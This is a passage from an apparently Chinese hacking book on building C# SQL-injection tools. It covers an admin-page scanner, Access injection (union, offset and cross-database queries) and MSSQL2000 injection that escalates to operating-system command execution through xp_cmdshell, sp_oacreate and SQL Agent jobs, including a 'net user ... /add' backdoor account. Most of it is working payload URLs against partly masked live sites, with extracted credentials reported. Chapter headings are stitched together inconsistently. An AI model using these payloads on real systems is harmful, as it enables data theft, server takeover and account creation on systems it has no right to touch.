    delStartGetTable.BeginInvoke(callBackWhenDone, null);
}

// （完整代码可以详见实例 4 的完整程序代码）
```

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，单击开始检测按钮，检测出存在数字型注入漏洞，数据库为 access，接着单击猜解表名，猜解到两个数据表 user、admin，然后勾选表名下面的数据表 admin，单击猜解列名，猜解 admin 表中的字段名，程序猜到了 admin 表中的字段 `admin_name`、`admin_pass`、`id`，最后选择要猜解的列名，单击猜解数据，得到用户名和密码。运行效果如图 16 所示。


> 图 16 成功猜解记录内容

我们再看下关键字检测的功能。在注入点处输入需要检测的 URL，在关键字处输入“关键字”，单击开始检测按钮，检测出存在数字型注入漏洞，数据库为 access，接着单击猜解表名，猜解到两个数据表 users、news，然后勾选表名下面的数据表 users，单击猜解列名，猜解 users 表中的字段名，程序猜到了 users 表中的字段 `username`、`password`、`id`，最后选择要猜解的列名，单击猜解数据，得到用户名和密码。运行效果如图 17 所示。


图 17 关键字检测成功猜解记录内容

#### 3.5 扫描管理后台

得到了用户密码以后我们就应该寻找登录页面，然后利用得到的用户和密码尝试登录。很多注入工具都提供了后台查找功能，下面我们学习如何用程序实现后台的扫描功能。

扫描管理后台的原理就是把常见的后台路径放到一个文本文件中，在猜解后台的时候，打开这个文本文件，每次从文件中取出一个后台目录或文件，构造 URL 进行访问。如果返回 HTTP 状态码为 OK，等效于 HTTP 状态 200，表示请求成功，访问的这个后台页面存在；如果返回的 HTTP 状态码为 Forbidden，等效于 HTTP 状态 403，表示服务器拒绝请求，也表示访问的路径是存在的。直到遍历文本文件中所有的页面或路径。

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为“后台扫描”。

在工具箱中拖放一个 Button 控件、一个 ComboBox 控件、一个 Label 控件、一个 RichTextBox 控件到窗体中，然后移动，重新调节大小位置，如图 18 所示。


图 18 控件布局

双击扫描按钮，就会切换到按钮的 Click 事件。`comboBox_url.Text` 则是获取文本框中用户输入的 URL 内容，`richTextBox` 用来显示扫描到的后台路径。

```csharp
/* 首先我们定义一个函数 scan_admin()，把我们要猜解后台的功能代码放在这个函数里面，
   当我们单击“扫描”按钮后异步调用 scan_admin()，避免程序的主界面出现假死的现象，scan_admin() 代码如下 */
private void scan_admin()
{
    string my_scanUrl = comboBox_url.Text.Trim();
    StreamReader srReader = new StreamReader("admin.txt");
    string admin_path;
    while ((admin_path = srReader.ReadLine()) != null)
    {
        try
        {
            HttpWebRequest WebReqScan = (HttpWebRequest)WebRequest.Create(new Uri(my_scanUrl + admin_path));

            WebReqScan.UserAgent = "User-Agent Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) pois0n adminscan/beta v1.0"; // 构造客户端信息
            HttpWebResponse WebRepScan = (HttpWebResponse)WebReqScan.GetResponse();

            if (WebRepScan.StatusCode != HttpStatusCode.NotFound) // 如果返回的 HTTP 状态码不是 404，我们认为这个页面是可以访问的
            {
                richTextBox_admin.Text = richTextBox_admin.Text + my_scanUrl + admin_path + " " + WebRepScan.StatusCode.ToString() + "\r\n";
            }
            WebReqScan.Abort();
            WebRepScan.Close();
        }
        catch
        {
        }
    }

    MessageBox.Show("扫描完毕");
}
```

（完整代码可以详见后台扫描实例的完整程序代码）

最后按 Ctrl+F5 编译运行，在 URL 处输入需要检测的 URL，单击扫描按钮，最后扫描效果如图 19 所示。


图 19 成功扫描到管理后台

### 4 Access 注入高级利用

#### 4.1 中文处理方法

Access 数据库注入中碰到中文字符是常有的事，我们看一下遇到中文时如何去猜解。0–127 是 7 位 ASCII 码的范围，是国际标准。对于中文字符，不同的字符集用的 ASCII 码的范围也不一样。例如 GB2312 字符集包含了 6763 个简体汉字和 682 个标准中文符号，每个汉字用 2 个字节来表示，每个字节的 ASCII 码为 161–254。Access 中，中文的 ASCII 码可能会出现负数，取该负数的绝对值，汉字字符不变。

- `abs()`：返回数字的绝对值
- `and (select top 1 abs(asc(mid(column_name,N,1))) from (Select Top 1 * from table_name where 1=1 order by 1) T Order by 1 desc) between iFirst and iLast`

意思是猜解第一条记录 `(select top 1)` `column_name` 字段第 N 位字符的 ASCII 码值的绝对值。变换 N 的值，再结合折半查找就可以猜解第一条 `column_name` 字段记录所有位字符的 ASCII 码值。

```sql
http://www.xxxx.com/mshow.asp?id=5367 and (select top 1 abs(asc(mid(username,1,1))) from (Select Top 1 * from admin where 1=1 order by 1) T Order by 1 desc) between 256 and 32895
```

`username` 字段第 1 位字符的码值的绝对值返回正常，说明 ASCII 码值的绝对值在 254 到 32895 之间，如图 20 所示。


图 20 第一条记录 username 字段第 1 位字符的码值的绝对值在 254 到 32895 之间

利用折半查找，提交  
`http://www.xxxx.com/mshow.asp?id=5367 and (select top 1 abs(asc(mid(username,1,1))) from (Select Top 1 * from admin where 1=1 order by 1) T Order by 1 desc) between 16575 and 32895`，返回正常，说明 ASCII 码值的绝对值在 16575 到 32895 之间，如图 21 所示。


图 21 第一条记录 username 字段第 1 位字符的码值的绝对值在 16575 到 32895 之间

以此类推，最后我们得到 ASCII 码值的绝对值为 17956，转换得到中文字符为“管”，如图 22 所示。


图 22 第一条记录 username 字段第 1 位字符的码值的绝对值是 17956

#### 4.2 Union 联合查询

在注入中 union 查询是很方便的，不用一个字符接一个字符去猜解，大大提高了效率。使用 union 查询可以让我们很容易地得到注入返回的敏感信息。union 查询需要满足两个条件：

- 所有查询中的列数和列的顺序必须相同。
- 数据类型必须兼容。

为了使所有 union 查询中 union 前后的列数和列的顺序相同，首先需要匹配 union 查询字段数。匹配 union 查询字段数一般有两种方法——`order by` 及 `union select n1,n2,n3`。下面我们以第二种为例来说明。

例如我们检测到 `http://www.xxxx.com/mshow.asp?id=5367` 存在 SQL 注入。提交 `http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1 from admin`，返回错误页面，说明要匹配的字段数大于 1，返回如图 23 所示。

增加字段继续提交 `http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2 from admin`，返回错误；增加字段继续提交 `http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3 from admin`，返回错误；增加字段继续提交，直到  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from admin`，返回结果类似如图 24 所示，说明要匹配的字段数等于 18。


在图 24 中有些地方显示了数字 2、4、5、16，这些数字代表什么呢？我们把上面的语句  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,username,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from admin`  
中的 4，换成 `username` 提交，返回如图 25 所示。

我们分析图 25 中显示的内容发现，在图 24 数字 4 的地方显示出了用户名。这就是 union 查询的方便之处。

#### 4.3 偏移注入

有人把 Access 注入的步骤总结为猜表、猜字段、猜内容、MD5、后台、上传、备份、配置信息、webshell。但是有些时候我们得到管理员表的时候却猜不到表中的字段，或只能猜到部分字段名。某些时候支持 union 查询的注入点，利用偏移注入可以在不知道表中字段名的情况下把用户密码爆出来。

例如我们检测到 `http://www.xxxx.com/mshow.asp?id=5367` 存在 SQL 注入，支持 union 查询。我们猜解出存在 admin 表但是不知道密码字段名。我们开始匹配 union 查询字段数，最后得到字段数为 18。

```sql
http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from admin
```

然后我们猜解 admin 表的字段数。我们提交  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,* from admin`，返回错误页面；继续提交  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin`，返回错误页面；继续提交，直到  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,* from admin`，返回正常页面，说明 admin 表中有 `18-10=8` 个字段，并且在页面原来 16 的位置显示出了 admin 表中某时间字段的内容，如图 26 所示。


如果知道 admin 表中用户及密码字段的名字，我们可以直接爆出这些内容，但现在我们只爆出了某个无关字段的内容。

这里我们简单介绍下结构化查询语言里面表的自联。  
关键词：`INNER JOIN`  
格式：`SELECT 列名表 FROM 表名1 [INNER] JOIN 表名2 ON 或 WHERE 条件表达式`  
例如：

```sql
select * from table1 i inner join table2 t on i.inst_no = t.inst_no
where i.inst_no = "1111"
```

等价于早期的连接语法：

```sql
select * from table1 i inner join table2 t where i.inst_no = t.inst_no
and i.inst_no = "1111"
```

在内连接中，将查询条件加入到 on 子句，还是 where 子句，其效果是完全一样的。在其他连接中是不一样的，这里我们只讨论内连接。例如 admin 表内容如下：

| id | username | password | lastip |
|---|---|---|---|
| 5 | 管理员 | c68c3af52bd4afc2 | 61.x.x.230 |

我们执行 `select * from admin a inner join admin b on a.id=b.id` 后得到：

| a.id | a.username | a.password | a.lastip | b.id | b.username | b.password | b.lastip |
|---|---|---|---|---|---|---|---|
| 5 | 管理员 | c68c3af52bd4afc2 | 61.x.x.230 | 5 | 管理员 | c68c3af52bd4afc2 | 61.x.x.230 |

我们回到上面的注入问题，当提交  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from admin`  
的时候，实际上执行的 SQL 语句为  
`select * from content where lock=True and id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from admin`，返回结果如图 27 所示。


当我们提交  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,* from admin`  
的时候，实际上执行的 SQL 语句为  
`select * from content where lock=True and id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,* from admin`，返回结果如图 28 所示。


这样，我们就把部分 admin 中字段内容显示出来了。偏移注入的一个核心就是打乱查询中字段的顺序，增加用户密码字段在可显示位置的几率。

例如我们知道 admin 表中有一个字段为 `username`，提交  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,username,* from admin`，  
实际上执行的 SQL 语句为  
`select * from content where lock=True and id=5367 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,username,* from admin`，返回结果如图 29 所示。

对比图 28 和图 29 可以发现，原来 11、12 位置的内容被打乱了。可能有人会问，你两次提交 union 后面的字段数量不同，怎么不会报错呢？这是因为 `username` 字段在 `*` 里是存在的，查询的时候自动去掉重复字段，保持集合里元素的唯一性，查询效果完全一样，但是字段顺序被打乱了，增加了其他字段在可显位置的几率。

假如我们不知道 admin 表中任意字段的名字，或者利用仅知道的字段名不能达到我们的要求，还可以利用表的自连接。例如我们知道 admin 表中有一个字段为 `id`，提交  
`http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,* from (admin as a inner join admin as b on a.id=b.id)`，  
实际上执行的 SQL 语句为  
`select * from content where lock=True and id=5367 and 1=2 union select 1,2,* from (admin as ...)`。


a inner join admin as b on a.id=b.id)，返回结果如图30所示。

admin as a inner join admin as b on a.id=b.id 是 admin 表自连接。这样，from 后面的表就会成为字段数加倍的表，增加了 admin 中字段被显示出来的几率。

我们提交 `http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,* from (admin as a inner join admin as b on a.id=b.id)` 后的返回结果如图31所示，终于显示出了密码内容。


如果还是显示不出，我们继续提交 `http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,2,a.id,b.id,* from (admin as a inner join admin as b on a.id=b.id)`，再次打乱字段顺序，很有可能就会显示出要查询的内容。

#### 4.4 Access 跨库查询

如果一台服务器上有多个网站，其中一个网站存在 Access 注入点，但是通过注入得到的密码进入后台后发现得不到 WebShell，而我们又知道另外一个网站数据库在此服务器上的绝对路径，这时可以利用注入来跨库查询。

www.xxxx.com 和 www.yyyy.com 在同一台 Web 服务器上，我们已经知道 www.xxxx.com 存在注入点，也知道 www.yyyy.com 的数据库路径为 `D:\web\yyyy.com\data\database.mdb`。那我们看下如何通过 www.xxxx.com 的注入点读取 www.yyyy.com 的数据库内容。

```sql
and (Select Count(*) from [D:\web\yyyy.com\data\database.mdb].table_name)>0
```

判断 `D:\web\yyyy.com\data\database.mdb` 库中是否存在 table_name 表，我们提交 `http://www.xxxx.com/mshow.asp?id=5367 and (Select Count(*) from [D:\web\yyyy.com\data\database.mdb].user)>0`，返回正常页面，说明存在 user 表，如图32所示。


## 精通CGI黑客注入编程

```sql
union select 1,2,3,4.... from table_name in 'D:\web\yyyy.com\data\database.mdb'
```

通过 union 查询读取 `D:\web\yyyy.com\data\database.mdb` 中的内容，我们提交：

```sql
http://www.xxxx.com/mshow.asp?id=5367 and 1=2 union select 1,userpass,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from user in 'D:\web\yyyy.com\data\database.mdb' where username='admin'
```


图33 Access 跨库查询成功。

得到了 `D:\web\yyyy.com\data\database.mdb` 库中的内容，返回如图33所示。


## 第六章 编写MSSQL2000注入工具

mohack.me

## 第八章 编写MSSQL2000注入工具

### 1 MSSQL2000注入的基本流程

asp + mssql server 架设的网站也是我们经常接触到的网站架构，而且 mssql 比 access 有更多精彩的地方。下面开始讨论 MS SQL SERVER 后台数据库的注入方法。mssql 注入攻击的基本流程：

- 第一步：发现在 SQL 注入漏洞的 Web 页面
- 第二步：判断后台数据库类型（MS SQL SERVER 数据库）
- 第三步：构造 SQL 查询语句确定 mssql 的数据库版本（2000、2005 还是 2008）
- 第四步：构造 SQL 查询语句可确定 mssql 当前连接用户的权限（sysadmin、db_owner、public）
- 第五步：sysadmin 权限注入
- 第六步：db_owner 权限注入
- 第七步：public 权限注入

### 2 MSSQL2000 注入功能分析

#### 2.1 识别 MSSQL Server 的版本

目前 Web 普遍采用 MSSQL2000 或者 MSSQL2005 两个版本，不同的版本利用方法是不同的，首先我们需要判断 MSSQL 的版本。

用到的语句：

```
substring(expression, start, length)：函数取得子字符串，如 substring("123", 1, 2) 返回 12；
CAST(expression AS data_type)：将某种数据类型的表达式转换为另一种数据类型；
Serverproperty：函数返回有关数据库服务器实例的属性信息，如 SERVERPROPERTY('productversion') 返回 SQL Server 的版本信息。
```

> 2008 SQL SERVER 的版本信息为“10.00.XXXX”  
> 2005 SQL SERVER 的版本信息为“9.00.XXXX”  
> 2000 SQL SERVER 的版本信息为“8.00.XXXX”

在注入点 URL 后添加 `and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)), 1, 1)>8`，如果返回正常，说明当前数据库版本大于“8.00.XXXX”。

我们通过前面编写的注入检测工具，发现 `http://stuic.xxx.cn/News.aspx?id=861` 存在数字型注入漏洞，并且后台是 mssql 数据库，如图1所示。

在浏览器里分别提交 `http://stuic.xxx.cn/News.aspx?id=861 and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)>7--` 和 `http://stuic.xxx.cn/News.aspx?id=861 and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)>8--`，返回结果如图2及图3所示，说明数据库版本信息大于“7.00.XXXX”，小于等于“8.00.XXXX”，可以确定版本为2000。其中“--”是 MSSQL 中的注释符，可以把“--”后面的语句注释忽略掉。


还有一种判断版本的方法，利用 SQL SERVER 的环境变量 `@@VERSION`，`@@VERSION` 返回安装的日期、版本和处理器类型。包含类似于下面的信息“Microsoft SQL Server 2000 - 8.00.2039 (Intel X86) May 3 2005 23:18:38 Copyright (c) 1988-2003 Microsoft Corporation Enterprise Edition on Windows NT 5.2 (Build 3790: Service Pack 2)”。

#### 2.2 错误提示

什么是错误提示呢？就是数据库的错误信息。我们注入时经常遇到类似 `http://stuic.xxx.cn/News.aspx?id=861 and user>0--` 的错误，如图4所示。


`and user>0` 是一个 nvarchar 类型的值跟 int 类型的值 0 比较，系统会先试图将 nvarchar 的值转成 int 型，转换的过程中会出错，MSSQL 就会把错误的详细内容显示出来。我们把这种技巧称为“整数转换”技巧。其原理是把 nvarchar 类型的数据强制转换为 `int` 整数类型，目的是把转换过程中的错误消息显示出来。

例如我们想获取 MSSQL 数据库的版本信息，可以提交 `http://stuic.xxx.cn/News.aspx?id=861 and @@VERSION>0--`，返回结果如图5所示。


图5 得到 MSSQL 数据库的版本信息。

#### 2.3 错误提示开启下的注入攻击

##### 2.3.1 获取数据库基本信息

MSSQL 有很多的内置变量，我们可以利用这些内置的变量来获取数据库服务器的一些基本信息，包括当前连接的用户、当前数据库名、服务器名等。

常见环境变量如下：

| 变量名 | 描述 |
|---|---|
| `@@VERSION` | 返回当前 SQL Server 安装的版本、处理器体系结构、生成日期和操作系统 |
| `user` | 返回当前数据库用户名 |
| `db_name()` | 返回当前数据库名 |
| `system_user` | 返回系统用户名 |
| `host_name()` | 得到客户端主机名 |
| `@@SERVERNAME` | 返回运行 SQL Server 的本地服务器的名称，得到服务端主机名 |

这里我们还有一个小技巧，可以利用 `host_name()`、`@@SERVERNAME` 初步判断 Web 服务器和数据库服务器是否为同一台机器，如果两个变量的值相同那么是同一台机器，不同则说明 Web 服务器和数据库服务器是分开的。

例如我们提交 `http://stuic.xxx.cn/News.aspx?id=861 and db_name()>0--`，返回结果如图6所示，得到当前数据库名为 `onlineclass`。


图6 得到当前数据库名。

提交 `http://stuic.xxx.cn/News.aspx?id=861 and system_user>0--`，返回结果如图7所示，得到系统用户名为 `homePage`。

提交 `http://stuic.xxx.cn/News.aspx?id=861 and host_name()>0--`，返回结果如图8所示，得到客户端主机名为 XUEXXXXXXCHU。提交 `http://stuic.xxx.cn/News.aspx?id=861 and @@SERVERNAME>0--`，返回结果如图9所示，得到服务端主机名为 RENXXXXX-WANG。


图8和图9返回的 `host_name()`、`@@SERVERNAME` 的值不一样，说明 Web 服务器和数据库服务器是分离的。

##### 2.3.2 判断当前连接数据库用户的权限

在 MS SQL SERVER 的权限管理中，为了方便用户的管理，预定义了很多服务器角色和数据库角色。服务器角色是指根据 MS SQL SERVER 的管理任务的重要性等级，把 MS SQL SERVER 管理用户划分为不同的用户组，每一组所具有的管理 MS SQL SERVER 的权限都是 SQL Server 内置的。

常用的固定服务器角色如下：

- 系统管理员（sysadmin）：拥有 SQL Server 所有的权限许可；
- 服务器管理员（serveradmin）：管理 SQL Server 服务器端的设置；
- 磁盘管理员（diskadmin）：管理磁盘文件；
- 进程管理员（processadmin）：管理 SQL Server 系统进程；
- 安全管理员（securityadmin）：管理和审核 SQL Server 系统登录；
- 安装管理员（setupadmin）：增加、删除连接服务器，建立数据库复制以及管理扩展存储过程；
- 数据库创建者（dbcreator）：创建数据库，并对数据库进行修改；
- 批量数据输入管理员（bulkadmin）：管理同时输入大量数据的操作。

## 绕过C2拦截注入编程

数据库角色是为某一用户或某一组用户授予不同级别的管理或访问数据库以及数据库对象的权限，这些权限是特定的数据库专有的，并且还可以使一个用户具有同一数据库的多个角色。

常用的固定数据库角色如下：

- **public**：每个数据库用户都属于 public 数据库角色，当尚未对某个用户授予或拒绝对安全对象的特定权限时，则该用户将继承授予该安全对象的 public 角色的权限；
- **db_owner**：可以执行数据库的所有配置和维护活动；
- **db_accessadmin**：可以增加或者删除数据库用户、工作组和角色；
- **db_ddladmin**：可以在数据库中运行任何数据定义语言（DDL）命令；
- **db_securityadmin**：可以修改角色成员身份和管理权限；
- **db_backupoperator**：可以备份和恢复数据库；
- **db_datareader**：能对数据库中的任何表执行 select 操作，从而读取所有表的信息；
- **db_datawriter**：能够增加、修改和删除表中的数据，但不能进行 SELECT 操作；
- **db_denydatareader**：不能读取数据库中任何表中的数据；
- **db_denydatawriter**：不能对数据库中的任何表执行增加、修改和删除数据操作。

在我们注入当中，经常遇到的只有三种角色——sysadmin、db_owner、public，其他的暂时可以不用理会。

在注入点后添加 `and is_srvrolemember('sysadmin')=1`，返回正常为 sysadmin 权限，也就是我们常说的 sa 权限。在注入点后添加 `and is_member('db_owner')=1`，返回正常为 db_owner 权限。如果上面两种情况都不满足，我们可以归结为 public 权限。

例如我们提交 `http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and is_srvrolemember('sysadmin')=1`，返回结果如图10所示，返回正常页面说明当前 URL 为 sa 权限的注入点。


MSSQL 中的 sa 权限是数据库管理员权限，如果拿到了 sa 权限，很容易拿到主机的管理员权限。

我们注入过程中执行的所有 SQL 语句都是在数据库服务器上执行的。如果 Web 服务器和数据库服务器不是同一台机器，是相互独立的，那么 Web 服务器只负责构造 SQL 语句并返回查询结果到浏览器，数据库服务器只负责接受 SQL 语句并执行。我们所有的操作都是对数据库服务器进行的，而不能对 Web 服务器进行操作。

##### 2.3.3 sa 权限注入

数据库中的 sa 用户是个等同操作系统 Administrator 权限的用户，拿到了 sa 权限，基本肯定可以拿到主机的 Administrator 权限。针对 sa 权限特有的注入方式我们可以概括为：

- 1) 直接执行系统命令（xp_cmdshell、sp_oacreate、JOB 执行命令、SandBoxMode）；
- 2) sp_makeWebtask 直接写文件；
- 3) 添加 sysadmin 权限用户。

##### 2.3.4 sa 权限执行系统命令

###### xp_cmdshell 执行命令

xp_cmdshell 是 MS SQL Server 自带的系统命令存储过程，默认情况下只有 SYSADMIN（sa）权限才能执行。此存储过程可以直接在服务器上执行操作系统命令。存储扩展调用方式：`exec master..xp_cmdshell 'net user pois0n 123456 /add'`。

随着管理员安全意识的提高，很多管理员都会删除一些特殊的存储过程来加固服务器，所以在利用前，我们要判断一下 xp_cmdshell 是否存在。判断 xp_cmdshell 是否存在：在注入点后添加 `and (select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')>0`，返回正常说明 xp_cmdshell 是存在的。


图11 返回正常。

例如我们提交 `http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and (select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')>0`，返回结果如图11所示，返回正常页面，说明 xp_cmdshell 是存在的。

如果返回错误页面说明 xp_cmdshell 可能被管理员删除，我们可以尝试利用命令来恢复，执行 `http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;exec master..sp_addextendedproc 'xp_cmdshell','xplog70.dll'--`。

通过 xp_cmdshell 执行命令的过程以及用到的语句如下（数字型注入点只需要在注入点后添加一个分号，后面跟 SQL 语句，最后用“--”注释掉后面的内容。字符型注入点我们首先需要闭合引号，只需在注入点后添加一个引号然后再跟分号即可）：首先建立一个数据表 poopoopoo（表名可自定义），保存 xp_cmdshell 执行命令返回的结果：

```sql
drop table [poopoopoo];
create table [poopoopoo]([resulttxt] nvarchar(4000) null);--
```

通过 xp_cmdshell 执行 net user 命令显示服务器上的用户信息，这里可以把 net user 换成我们想要执行的命令。

insert into 把通过 xp_cmdshell 执行命令返回的结果按行写入到 poopoopoo 表中：

# 精通 C# 黑客注入编程

```sql
;insert into [poopoopoo](resulttxt) exec master..xp_cmdshell 'net user'; alter table [poopoopoo] add id int not null identity(1,1)--
```

执行完以后，再把执行命令的返回信息通过 poopoopoo 表读取出来，回显给我们。首先查询 poopoopoo 表中执行命令返回结果的行数：

```sql
and (select char(94)%2Bcast(count(resulttxt) as nvarchar(4000))%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

变换 top N 中的 N，查询出 poopoopoo 表中的所有记录，即得到执行命令的返回结果：

```sql
and (select top 1 resulttxt from (select top N id,resulttxt from [poopoopoo] where resulttxt is not null order by [id]) t order by [id] desc)>0--
```

我们通过下面一个例子，看如何构造 URL 来执行命令以及返回执行结果。首先建立一个数据表 poopoopoo，保存 xp_cmdshell 执行命令返回的结果：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null);--
```

把通过 xp_cmdshell 执行命令返回的结果按行写入到 poopoopoo 表中：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;insert into [poopoopoo](resulttxt) exec master..xp_cmdshell 'net user';alter table [poopoopoo] add id int not null identity(1,1)--
```

查询 poopoopoo 表中执行命令返回结果的记录行数：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and (select char(94)%2Bcast(count(resulttxt) as nvarchar(4000))%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

返回结果如图 12 所示，说明 poopoopoo 表中有 12 条数据，也就是我们通过 xp_cmdshell 执行 net user 命令的回显结果为 12 行。

> 图 12 net user 命令的回显结果为 12 行

查询出 poopoopoo 表中的第一条记录：

> 图 13 第一条记录

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and (select top 1 resulttxt from (select top 1 id,resulttxt from [poopoopoo] where resulttxt is not null order by [id]) t order by [id] desc)>0--
```

返回结果如图 13 所示。  
查询出 poopoopoo 表中的第二条记录：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and (select top 1 resulttxt from (select top 2 id,resulttxt from [poopoopoo] where resulttxt is not null order by [id]) t order by [id] desc)>0--
```

###### sp_oacreate 执行命令

sp_oacreate 是 MS SQL Server 自带的系统命令存储过程，默认情况下只有 SYSADMIN（sa）权限才能执行。可以利用 sp_OACreate 和 sp_OAMethod 调用 OLE 控件，间接在服务器上执行操作系统命令。使用 SP_OACreate 调用对象 wscript.shell，然后使用 SP_OAMethod 的属性 run 执行命令。现在普通的注入工具 xp_cmdshell 执行命令都会显示命令执行结果，但是一般注入工具 sp_oacreate 执行命令都没有显示执行结果。这里我们可以把执行命令的结果通过“>”写到一个临时文件中，然后把这个临时文件中的数据写入到数据库的某个表，最后通过查询表中的记录，得到执行命令的返回结果。

首先建立一个数据表 poopoopoo，保存执行命令返回的结果：

```sql
drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null);--
```

通过 sp_oacreate 创建 wscript.shell 对象，执行 ver 命令显示服务器操作系统信息。这里可以把 ver 换成我们想要执行的命令。利用“>”把结果写到一个临时文件 poopoopoo.tmp 中：

```sql
;declare @o int exec sp_oacreate 'wscript.shell',@o output exec sp_oamethod @o,'run',null,'c:\windows\system32\cmd.exe /c ver > poopoopoo.tmp',0,true--
```

通过 SQL 关键字“bulk”，把文件中的数据写入到数据表 poopoopoo 中：

```sql
;bulk insert poopoopoo from 'poopoopoo.tmp' with (keepnulls);alter table [poopoopoo] add id int not null identity(1,1)--
```

查询 poopoopoo 表中执行命令返回结果的行数：

```sql
and (select char(94)%2Bcast(count(resulttxt) as nvarchar(4000))%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

变换 top N 中的 N，查询出 poopoopoo 表中的所有记录，即得到执行命令的返回结果：

```sql
and (select top 1 resulttxt from (select top N id,resulttxt from [poopoopoo] where resulttxt is not null order by [id]) t order by [id] desc)>0--
```

我们通过下面一个例子，看如何构造 URL 来执行命令以及返回执行结果。首先建立一个数据表 poopoopoo，保存执行命令返回的结果：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null);--
```

通过 sp_oacreate 创建 wscript.shell 对象，执行 ver 命令，利用“>”把结果写到一个临时文件 poopoopoo.tmp 中：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;declare @o int exec sp_oacreate 'wscript.shell',@o output exec sp_oamethod @o,'run',null,'c:\windows\system32\cmd.exe /c ver > poopoopoo.tmp',0,true--
```

通过关键字“bulk”把临时文件 poopoopoo.tmp 中的数据写入到数据表 poopoopoo 中：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;bulk insert poopoopoo from 'poopoopoo.tmp' with (keepnulls);alter table [poopoopoo] add id int not null identity(1,1)--
```

查询 poopoopoo 表中执行命令返回结果的行数：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and (select char(94)%2Bcast(count(resulttxt) as nvarchar(4000))%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

返回结果如图 14 所示，说明 poopoopoo 表中有 1 条数据，也就是我们执行 ver 命令的回显结果为 1 行。查询出 poopoopoo 表中的记录，得到执行命令的结果：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397 and (select top 1 resulttxt from (select top 1 id,resulttxt from [poopoopoo] where resulttxt is not null order by [id]) t order by [id] desc)>0--
```

图 14 ver 命令的回显结果为 1 行

图 15 ver 命令的回显结果

返回结果如图 15 所示。

###### SQL 代理服务执行命令

利用 SQL 代理服务执行命令有一个先决条件，就是数据库服务器的“SQLSERVERAGENT”服务需要开启，默认情况下这个服务是关闭的。我们可以先利用 xp_servicecontrol 开启 SQLSERVERAGENT，建立一个 SQL 计划任务，然后马上运行这个任务。开启语句为：

```sql
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT'--
```

执行命令语句为：

```sql
exec msdb..sp_delete_job null,'poopoopoo' exec msdb..sp_add_job 'poopoopoo' exec msdb..sp_add_jobstep null,'poopoopoo',null,'1','cmdexec','cmd /c ipconfig' exec msdb..sp_add_jobserver null,'poopoopoo',@@servername exec msdb..sp_start_job 'poopoopoo'--
```

我们提交：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;exec master..xp_servicecontrol 'start','SQLSERVERAGENT' exec msdb..sp_delete_job null,'poopoopoo' exec msdb..sp_add_job 'poopoopoo' exec msdb..sp_add_jobstep null,'poopoopoo',null,'1','cmdexec','c:\windows\system32\cmd.exe /c ipconfig > poopoopoo.tmp' exec msdb..sp_add_jobserver null,'poopoopoo',@@servername exec msdb..sp_start_job 'poopoopoo'--
```

返回结果如图 16，我们的命令成功执行了。

图 16 开启了 SQLSERVERAGENT 服务

###### SandBoxMode（沙盒模式）执行命令

